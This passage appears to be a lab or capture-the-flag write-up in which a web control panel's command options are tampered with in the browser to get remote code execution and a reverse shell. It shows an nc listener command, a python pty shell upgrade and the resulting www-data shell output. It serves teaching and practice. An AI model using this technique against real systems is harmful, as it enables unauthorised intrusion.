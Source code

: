 ## 3. Remote Code Execution

Logging into the website with the acquired credentials leads to the following command interface:

![control-panel](img/03.png)

Apparently, the user is allowed to perform administrative tasks such as starting and stopping services.

Investigations of the HTML source code show that each option corresponds to a Linux command that is executed:

```html
<select name="command" class="form-select">
    <option value="" selected>Select a command...</option>
    <option value="/opt/control-panel ftp-start">Start FTP server</option>
    <option value="/opt/control-panel ftp-stop">Stop FTP server</option>
    <option value="/opt/control-panel web-restart">Restart web server</option>
    <option value="/opt/control-panel reboot">Full system reboot (CAUTION!)</option>
</select>
```

So let's try if we can execute arbitrary commands and establish a reverse shell:

1. Start the listener on your Kali machine: `nc -lnvp 4242`

2. Replace one of the `value` attributes in your browser's dev tools:
   
   ![inspector](img/04.png)

3. Click "Run command" to submit the form and execute the command.

4. Upgrade the reverse shell via `python3 -c "import pty; pty.spawn('/bin/bash')"`.

```bash
$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [192.168.60.2] from (UNKNOWN) [192.168.60.5] 50884
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@cantaloupe:/var/www/html$
```

